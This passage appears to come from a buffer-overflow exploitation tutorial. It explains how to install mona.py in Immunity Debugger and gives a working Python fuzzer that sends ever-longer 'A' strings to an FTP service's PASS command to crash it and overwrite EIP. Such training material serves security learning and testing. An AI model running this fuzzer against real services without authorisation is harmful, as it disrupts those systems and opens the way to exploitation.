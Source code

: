 | The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.
